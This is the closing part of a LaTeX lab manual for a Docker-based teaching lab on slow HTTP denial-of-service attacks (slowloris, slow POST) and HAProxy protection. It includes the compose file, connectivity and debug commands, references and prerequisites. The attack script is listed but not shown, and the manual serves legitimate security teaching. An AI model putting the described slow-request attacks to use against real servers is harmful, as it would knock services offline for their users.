\subsection{Container Networking and DNS Resolution}

\subsubsection{Docker Internal DNS}
All containers in the lab use Docker's internal DNS resolution, which allows them to communicate using container names instead of IP addresses. This is configured in the `docker-compose.yml` file:

\begin{lstlisting}[language=yaml, caption=Network Configuration]
networks:
  ddos-net:
    driver: bridge
\end{lstlisting}

\subsubsection{Container Communication}
\begin{itemize}
    \item \textbf{Container Names:} `nginx-server`, `haproxy`, `attacker`, `user`
    \item \textbf{Internal DNS:} Containers can resolve each other by name
    \item \textbf{Network Isolation:} All containers are on the `ddos-net` bridge network
    \item \textbf{Port Mapping:} External access via `localhost:8080` (nginx) and `localhost:8081` (haproxy)
\end{itemize}

\subsubsection{Testing Connectivity}
\begin{lstlisting}[language=bash]
# Test connectivity between containers
docker exec -it user ping nginx-server
docker exec -it user ping haproxy
docker exec -it attacker ping nginx-server
docker exec -it attacker ping haproxy

# Test HTTP connectivity
docker exec -it user curl -s http://nginx-server:80
docker exec -it user curl -s http://haproxy:8081
\end{lstlisting}

\subsection{Docker Compose Configuration}
\begin{lstlisting}[language=yaml, caption=Docker Compose Configuration]
version: '3.8'

services:
  nginx-server:
    build:
      context: .
      dockerfile: nginx-server.Dockerfile
    container_name: nginx-server
    networks:
      - ddos-net
    ports:
      - "8080:80"
    ulimits:
      nofile:
        soft: 65536
        hard: 65536
  haproxy:
    build:
      context: ./haproxy
    container_name: haproxy
    ports:
      - "8081:8081"
    networks:
      - ddos-net

  attacker:
    build:
      context: ./attacker
    container_name: attacker
    networks:
      - ddos-net
    tty: true

  user:
    build:
      context: ./user
    container_name: user
    networks:
      - ddos-net
    tty: true

networks:
  ddos-net:
    driver: bridge
\end{lstlisting}

\subsection{Troubleshooting Guide}

\subsubsection{Common Issues}
\begin{itemize}
    \item \textbf{Container won't start:} Check Docker daemon and available resources
    \item \textbf{Connection refused:} Verify ports are not in use by other services
    \item \textbf{Attack not working:} Ensure containers are on the same network
    \item \textbf{HAProxy errors:} Check configuration syntax and file permissions
\end{itemize}

\subsubsection{Debug Commands}
\begin{lstlisting}[language=bash]
# Check container status
docker-compose ps

# View container logs
docker logs haproxy
docker logs nginx-server

# Test connectivity
docker exec -it user ping nginx-server
docker exec -it attacker ping haproxy

# Check HAProxy configuration
docker exec -it haproxy haproxy -c -f /usr/local/etc/haproxy/haproxy.cfg
\end{lstlisting}

\section{References}

\begin{enumerate}
    \item HAProxy Documentation: \url{https://www.haproxy.org/download/2.6/doc/intro.txt}
    \item SEED Labs: \url{https://seedsecuritylabs.org}
    \item Slowloris Attack: \url{https://en.wikipedia.org/wiki/Slowloris_(computer_security)}
    \item DDoS Protection Strategies: \url{https://www.cloudflare.com/learning/ddos/}
\end{enumerate}

\section{Figures and Listings Checklist}

\subsection{Figures}
\begin{enumerate}
    \item \textbf{Figure \ref{fig:slowloris}} - Slowloris Attack Flow: Shows the step-by-step process of a slowloris attack
    \item \textbf{Figure \ref{fig:slowpost}} - Slow POST Attack Flow: Illustrates the slow POST attack methodology
    \item \textbf{Figure \ref{fig:topology}} - Lab Network Topology: Depicts the Docker container network architecture
\end{enumerate}

\subsection{Tables}
\begin{enumerate}
    \item \textbf{Table \ref{tab:performance}} - Performance Comparison: Compares response times and concurrent users across different scenarios
    \item \textbf{Table \ref{tab:attack_comparison}} - Attack Effectiveness Comparison: Compares the effectiveness of direct, bypass, and protected attacks
    \item \textbf{Table \ref{tab:backends}} - Backend Configuration: Details the HAProxy backend configurations and purposes
    \item \textbf{Table \ref{tab:evaluation}} - Evaluation Criteria: Outlines the grading criteria for the lab
\end{enumerate}

\subsection{Code Listings}
\begin{enumerate}
    \item \textbf{HAProxy Configuration} - Complete HAProxy configuration with DDoS protection mechanisms
    \item \textbf{Slow POST Threads Attack Script} - Multi-threaded attack script with configurable target and mode
    \item \textbf{Script Usage Examples} - Examples of how to use the attack script with different arguments
    \item \textbf{Docker Compose Configuration} - Complete Docker Compose setup for the lab environment
    \item \textbf{Network Configuration} - Docker network configuration for container communication
    \item \textbf{E-commerce Load Balancer Configuration} - Example real-world HAProxy configuration
    \item \textbf{Microservices Load Balancer Configuration} - Example microservices architecture configuration
    \item \textbf{Health Check Configuration} - Advanced health monitoring configuration
\end{enumerate}

\section{Assumptions and Prerequisites}

\subsection{Technical Assumptions}
\begin{itemize}
    \item \textbf{Docker Environment:} Students have Docker and Docker Compose installed and running
    \item \textbf{System Resources:} Sufficient RAM (4GB+) and disk space (2GB+) available
    \item \textbf{Network Access:} Internet connectivity for downloading Docker images
    \item \textbf{Operating System:} Linux, macOS, or Windows with Docker support
\end{itemize}

\subsection{Knowledge Assumptions}
\begin{itemize}
    \item \textbf{Basic Networking:} Understanding of IP addresses, ports, and HTTP protocol
    \item \textbf{Command Line:} Familiarity with Linux command-line interface
    \item \textbf{Container Concepts:} Basic understanding of Docker containers and networking
    \item \textbf{Web Technologies:} Knowledge of HTTP requests, headers, and responses
\end{itemize}

\subsection{Lab Environment Assumptions}
\begin{itemize}
    \item \textbf{Isolated Environment:} Lab runs in isolated Docker containers
    \item \textbf{Consistent Network:} All containers use the same Docker network (`ddos-net`)
    \item \textbf{Service Availability:} nginx-server and HAProxy services are always running
    \item \textbf{Attack Scripts:} Python scripts are pre-installed in the attacker container
\end{itemize}

\end{document}
